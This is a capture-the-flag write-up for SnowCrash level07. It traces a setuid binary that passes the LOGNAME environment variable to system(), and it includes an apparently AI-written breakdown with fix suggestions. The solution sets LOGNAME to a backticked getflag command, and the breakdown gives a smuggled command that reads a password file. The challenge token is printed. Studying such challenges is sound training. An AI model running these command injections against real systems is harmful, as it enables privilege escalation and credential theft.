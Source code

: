 # level07
## Introduction

This level07 binary contains a classic command injection vulnerability due to unsanitized use of getenv("LOGNAME") in a system() call. A user can exploit this to execute arbitrary shell commands with elevated privileges and likely extract a flag or password in the SnowCrash challenge.


## Observations

level07@SnowCrash:~$ ls
level07
level07@SnowCrash:~$ ./level07 
level07
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff6e4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                    = 2007
geteuid()                                    = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                            = "level07"
asprintf(0xbffff634, 0x8048688, 0xbfffff1a, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                       = 0
+++ exited (status 0) +++



## Final solution
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h


The output you're showing is from `ltrace ./level07`, which traces calls to **library functions** (like `system`, `getenv`, `asprintf`, etc.) made by the `level07` binary on the SnowCrash wargame system. Here's a breakdown of what this binary does and the **potential security risks** involved:

---

### 🔍 **Step-by-step Breakdown**

1. **Program Entry**

   ```
   __libc_start_main(0x8048514, ...)
   ```

   This is the standard entry point for a C program, calling the `main` function.

2. **Effective UID/GID Handling**

   ```
   getegid() = 2007
   geteuid() = 2007
   setresgid(2007, 2007, 2007)
   setresuid(2007, 2007, 2007)
   ```

   The program sets its real, effective, and saved UID/GID to **2007**. This means:

   * The binary is likely **setuid-root** or **setuid-level07**, running with **elevated privileges** (to user 2007, presumably the owner of a more privileged file or password).

3. **Reads Environment Variable**

   ```
   getenv("LOGNAME") = "level07"
   ```

   It reads the `LOGNAME` environment variable, which can be controlled by the **user**.

4. **String Formatting**

   ```
   asprintf(0xbffff634, 0x8048688, 0xbfffff1a) = 18
   ```

   It uses `asprintf` to create a string, probably like:

   ```c
   asprintf(&cmd, "/bin/echo %s", getenv("LOGNAME"));
   ```

   So `cmd` becomes:

   ```
   /bin/echo level07
   ```

5. **System Call**

   ```
   system("/bin/echo level07")
   ```

   It calls `system()` to run a shell command — in this case, echoing the username.

---

### ⚠️ **Security Risks**

#### 1. ✅ **Command Injection (Potential Exploit)**

Since the value of `LOGNAME` comes from the **environment**, and it's directly embedded into a shell command (`system()`), this is a **command injection vulnerability**:

> If a malicious user runs the program like this:

```bash
LOGNAME='level07; cat /home/level07/.pass' ./level07
```

Then the command executed becomes:

```bash
/bin/echo level07; cat /home/level07/.pass
```

This will display the password file contents if the program runs with the privileges of `level07`.

---

#### 2. ❌ **Use of `system()`**

Using `system()` with user-controlled input is dangerous. It invokes a shell and executes arbitrary commands. It's almost always better to use safer alternatives like `execve()` with controlled arguments.

---

#### 3. 🧪 **Environment Variables**

Reading from `getenv()` introduces attack vectors when combined with insecure shell execution. The attacker can fully control `LOGNAME` from the environment.

---

### 🛡️ **Fix Suggestions**

* Avoid `system()` entirely for user input.
* Sanitize or validate input if it's absolutely necessary.
* Use `execve()` or similar calls with strict argument parsing.
* Drop privileges as soon as they’re not needed.

---

### ✅ **Conclusion**

This `level07` binary contains a classic **command injection vulnerability** due to unsanitized use of `getenv("LOGNAME")` in a `system()` call. A user can exploit this to execute arbitrary shell commands with elevated privileges and likely extract a flag or password in the SnowCrash challenge.

Would you like to see an actual exploit example?
